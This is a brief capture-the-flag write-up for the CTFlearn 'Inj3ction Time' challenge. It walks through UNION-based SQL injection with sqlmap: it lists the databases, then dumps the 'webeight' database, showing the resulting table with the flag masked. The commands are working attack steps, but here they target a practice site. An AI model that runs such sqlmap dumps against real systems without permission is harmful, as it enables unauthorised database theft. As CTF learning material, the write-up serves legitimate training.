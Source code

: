 # Inj3ction Time 
From the description you’ll notice that there’s SQLi and you’ll use UNION query, the injection here is UNION based. Nice !

You’ll find that there’s input field ID and you should enter numbers and then you’ll see information about the users, if you try to insert words you won’t get anything

> You can use sqlmap

We must first extract the names of the existing databases :
```
python sqlmap.py -u https://web.ctflearn.com/web8/?id= -p id --dbs

available databases [2]:
[*] information_schema
[*] webeight
```
The next step is to extract the `webeight` database information
```
python sqlmap.py -u https://web.ctflearn.com/web8/?id= -p id -D webeight --dump

Database: webeight
Table: w0w_y0u_f0und_m3
[1 entry]
+---------------------------------+
| f0und_m3                        |
+---------------------------------+
| abctf{*-*-*-*-*-*-*-*-*-*-*-*-} |
+---------------------------------+
```